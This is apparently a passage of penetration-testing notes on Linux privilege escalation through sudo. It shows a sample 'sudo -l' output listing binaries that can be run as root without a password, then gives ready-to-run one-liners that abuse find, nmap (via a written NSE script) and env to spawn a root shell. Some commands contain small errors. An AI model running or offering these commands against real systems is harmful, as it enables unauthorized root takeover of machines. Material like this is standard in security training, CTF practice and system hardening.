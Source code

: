 ## __Sudo -l__

Sudo -l 

What binaries can we execute with Sudo?

Example Output

User www-data may run the following commands on <hostname>

- (root) NOPASSWD: /usr/bin/find
- (root) NOPASSWD: /usr/bin/nmap
- (root) NOPASSWD: /usr/bin/env
- (root) NOPASSWD: /usr/bin/vim
- (root) NOPASSWD: /usr/bin/awk
- (root) NOPASSWD: /usr/bin/perl
- (root) NOPASSWD: /usr/bin/python
- (root) NOPASSWD: /usr/bin/less
- (root) NOPASSWD: /usr/bin/man
- (root) NOPASSWD: /usr/bin/ftp
- (root) NOPASSWD: /usr/bin/socat
- (root) NOPASSWD: /usr/bin/zip
- (root) NOPASSWD: /usr/bin/gcc
- (root) NOPASSWD: /usr/bin/docker
- (root) NOPASSWD: /usr/bin/env
- (root) NOPASSWD: /usr/bin/MySQL
- (root) NOPASSWD: /usr/bin/ssh
- (root) NOPASSWD: /usr/bin/tmux
- (root) NOPASSWD: /usr/bin/pkexec
- (root) NOPASSWD: /usr/bin/rlwrap
- (root) NOPASSWD: /usr/bin/xargs
- (root) NOPASSWD: /usr/bin/anansi_util
- (root) NOPASSWD: /usr/bin/apt-get
- (root) NOPASSWD: /usr/bin/flask run
- (root) NOPASSWD: /usr/bin/apache2
- (root) NOPASSWD: /usr/bin/wget


### __Absuing Sudo binaries to gain root__
----------------------------------------------------
find
```ps1
sudo find / etc/passwd -exec /bin/bash \;
```

Nmap
```ps1
echo "os.execute('/bin/bash/')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

Env
```ps1
sudo env /bin/bash
```
